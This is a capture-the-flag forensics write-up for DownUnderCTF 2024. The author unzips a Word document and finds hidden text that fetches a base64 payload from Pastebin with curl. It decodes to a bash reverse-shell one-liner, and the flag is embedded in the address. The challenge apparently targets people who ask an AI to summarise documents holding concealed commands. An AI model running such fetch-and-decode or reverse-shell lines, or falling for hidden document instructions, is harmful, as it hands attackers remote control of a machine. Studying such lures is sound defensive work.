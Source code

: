 ```yaml
---
title: "tldr please summarise"
description: "I thought I was being 1337 by asking AI to help me solve challenges, now I have to reinstall Windows again. Can you help me out by find the flag in this document?"
pubDate: 2024-07-10
ctf: "DownUnderCTF 2024"
category: "forensics"
author: "sealldev"
section: "CTFs"
image: "images/24-downunder/icon.png"
---
```




We are given a `EmuWar.docx` that is mostly nothing.

![emuwardoc](images/24-downunder/emuwardoc.png)

I know that Office documents are just essentially zip archives, so I extract the contents:
```bash
$ 7z x EmuWar.docx
Scanning the drive for archives:
1 file, 8202 bytes (9 KiB)

Extracting archive: EmuWar.docx
--
Path = EmuWar.docx
Type = zip
Physical Size = 8202

Everything is Ok

Files: 9
Size:       26291
Compressed: 8202
```

Inside the `word/document.xml` I find a suspicious link:
```
... <w:t xml:space="preserve">; curl -sL https://pastebin.com/raw/ysYcKmbu | base64 -d &gt; </w:t></w:r><w:r><w:rPr> ...
```

Visiting the [Pastebin URL](https://pastebin.com/raw/ysYcKmbu) is a base64 string: `YmFzaCAtaSA+JiAvZGV2L3RjcC8yNjEuMjYzLjI2My4yNjcvRFVDVEZ7Y2hhdGdwdF9JX24zM2RfMl8zc2NhcDN9IDA+JjE=`.

Decoded is the following: `bash -i >& /dev/tcp/261.263.263.267/DUCTF{chatgpt_I_n33d_2_3scap3} 0>&1`.

Flag: `DUCTF{chatgpt_I_n33d_2_3scap3}`